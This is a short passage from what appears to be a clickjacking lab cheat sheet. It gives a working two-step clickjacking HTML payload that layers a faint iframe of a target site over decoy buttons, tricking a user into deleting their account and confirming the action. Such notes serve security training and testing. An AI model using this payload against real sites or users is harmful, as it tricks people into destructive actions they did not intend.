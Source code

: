<br>

### 2-Step Clickjacking Attack

* Use a basic clickjacking payload, that loads the vulnerable application’s page in an \<iframe\>, which contains a button to delete the user’s account.  We can use this method to trick a user into clicking on the “Delete account” button, then confirm the action by clicking on another button on the targeted application.
  
	* For Example: height: 700px ,  weight: 500px , opacity: 0.1 , top: 500px , left: 100px

```html
<style>
	iframe {
		position:relative;
		width: 500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top: 500px;
		left: 50px;
		z-index: 1;
	}
   .secondClick {
		top: 290px;
		left: 225px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="$VULNERABLE-APPLICATION-URL"></iframe>
```

<br><br><br>

### Pending to complete labs that are missing from cheat sheet:

* All labs in this category are completed and referenced in cheat sheet.

